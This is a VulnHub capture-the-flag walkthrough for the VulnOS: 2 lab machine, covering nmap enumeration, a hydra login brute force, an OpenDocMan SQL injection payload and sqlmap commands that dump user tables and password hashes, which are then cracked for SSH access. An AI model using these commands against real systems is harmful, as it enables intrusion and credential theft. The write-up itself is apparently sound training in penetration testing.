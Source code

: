![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/38870c8b-0936-492b-bd14-1062ee90c440)# VulnOS: 2

## 1.Get VM IP

```text
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:d6:4d:fa       PCS Systemtechnik GmbH
192.168.56.104  08:00:27:57:4f:aa       PCS Systemtechnik GmbH
```

The IP address is `192.168.56.104`, lets enumerate it.

## 2.Enumeration

```text
root@kali: nmap -sV -sC -p- -v -oN fullscan 192.168.56.104

Nmap scan report for 192.168.56.104
Host is up (0.00011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|   256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: VulnOSv2
|_http-server-header: Apache/2.4.7 (Ubuntu)
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking port 80 shows a basic website :

![mainPage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/378a7c15-24ab-4726-9a9e-d20150ac6047)

i first navigated each menu and its page source, `documentation` menu is weird and has nothing in UI but if you see the page source

or highlight the page, it mentions a directory (/jabcd0cs/) ;

![path](https://github.com/Git-K3rnel/VulnHub/assets/127470407/eb055fed-4dab-4632-b8c8-c9cdd5758e61)

is also started fuzzing the website and checking robots.txt which revealed new directories :

```text
User-agent: *
Crawl-delay: 10
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

there is nothing interesting in these directories, so let's check the `/jabcd0cs/` :

![docman](https://github.com/Git-K3rnel/VulnHub/assets/127470407/47cbb7ec-3500-4723-878d-6fa4fb98b793)

here i just brute force the page with some default credentials :

```text
root@kali: hydra -L /default-usernames.txt  -P /default-usernames.txt 192.168.56.104 http-post-form "/jabcd0cs/:frmuser=^USER^&frmpass=^PASS^&login=Enter:Error" -v

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-26 04:47:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 576 login tries (l:24/p:24), ~36 tries per task
[DATA] attacking http-post-form://192.168.56.104:80/jabcd0cs/:frmuser=^USER^&frmpass=^PASS^&login=Enter:Error
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://192.168.56.104:80/jabcd0cs/out.php
[80][http-post-form] host: 192.168.56.104   login: guest   password: guest
[STATUS] attack finished for 192.168.56.104 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

yes, i found `guest:guest` here, tried several ways to get a web shell but didn't work.

so i checked `searchsploit` for any known exploit for `opendocman` :

```text
root@kali: searchsploit opendocman

OpenDocMan 1.2.7 - Multiple Vulnerabilities  | php/webapps/32075.txt
```

reading through [this](https://www.exploit-db.com/exploits/32075) document, it says there is a SQLi here :

```text
The exploitation example below displays version of the MySQL server:

http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,v
ersion%28%29,3,4,5,6,7,8,9
```

all we need to do is to replace the values according to our target and use sqlmap to attack the database :

```text
root@kali: sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php/?q=1&add_value=odm_user" -p add_value --batch --level 3 --dbs

available databases [6]:
[*] drupal7
[*] information_schema
[*] jabcd0cs
[*] mysql
[*] performance_schema
[*] phpmyadmin
```

we are interested in `jabcd0cs` database so let's see the tables :

```text
root@kali: sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php/?q=1&add_value=odm_user" -p add_value --batch --level 3 -D jabcd0cs --tables

[15 tables]
+-------------------+
| odm_access_log    |
| odm_admin         |
| odm_category      |
| odm_data          |
| odm_department    |
| odm_dept_perms    |
| odm_dept_reviewer |
| odm_filetypes     |
| odm_log           |
| odm_odmsys        |
| odm_rights        |
| odm_settings      |
| odm_udf           |
| odm_user          |
| odm_user_perms    |
+-------------------+
```

what is better than `odm_user` table ? let's see the columns :

```text
root@kali: sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php/?q=1&add_value=odm_user" -p add_value --batch --level 3 -D jabcd0cs -T odm_user --columns

[9 columns]
+---------------+------------------+
| Column        | Type             |
+---------------+------------------+
| department    | int(11) unsigned |
| Email         | varchar(50)      |
| first_name    | varchar(255)     |
| id            | int(11) unsigned |
| last_name     | varchar(255)     |
| password      | varchar(50)      |
| phone         | varchar(20)      |
| pw_reset_code | char(32)         |
| username      | varchar(25)      |
+---------------+------------------+
```

i need all of them, so let's dump all the info :

```text
root@kali: sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php/?q=1&add_value=odm_user" -p add_value --batch --level 3 -D jabcd0cs -T odm_user --dump

+----+--------------------+-------------+----------------------------------+----------+-----------+------------+------------+---------------+
| id | Email              | phone       | password                         | username | last_name | department | first_name | pw_reset_code |
+----+--------------------+-------------+----------------------------------+----------+-----------+------------+------------+---------------+
| 1  | webmin@example.com | 5555551212  | b78aae356709f8c31118ea613980954b | webmin   | min       | 2          | web        | <blank>       |
| 2  | guest@example.com  | 555 5555555 | 084e0343a0486ff05530df6c705c8bb4 | guest    | guest     | 2          | guest      | NULL          |
+----+--------------------+-------------+----------------------------------+----------+-----------+------------+------------+---------------+
```

perfect, we now have the hashes, i just go for `webmin` user to crack the hash using an online tool

and i got the cracked hash as `webmin1980` and immediately checked SSH to connect.

```text

```



















